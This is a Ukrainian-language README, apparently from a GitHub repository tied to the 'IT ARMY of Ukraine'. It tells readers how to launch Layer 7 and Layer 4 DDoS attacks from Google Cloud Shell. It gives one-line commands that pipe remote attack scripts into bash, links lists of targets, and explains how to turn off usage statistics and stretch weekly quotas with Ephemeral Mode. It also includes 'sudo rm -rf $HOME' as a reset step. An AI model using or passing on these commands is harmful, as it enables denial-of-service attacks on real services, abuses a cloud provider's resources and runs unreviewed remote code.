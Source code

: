 ## DDoS whith Google Cloud Shell (MHDDoS_proxy)
#### Script for durable cloudshell session. Test
#
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal

### Команди для запуску атаки
**по Layer7:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
**по Layer4:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash
```
**Подвійна атака (Layer7+Layer4) розділений термінал (tmux):**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```
У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях бажано **вимкнути** статистику використання.    
Дозволяється запускати до 4 терміналів на 1 акаунт але доцільніше використовувати 1-2 термінали на акаунт.    
Також враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень*)    
**Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart". *Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням.*
#
:white_check_mark: **Автоперезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000.    
За потреби параметр -t можна змінити додавши до команди** ` -s -- "кількість"`, **наприклад:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash -s -- 2000
```
#
#### Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4t.lst

#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
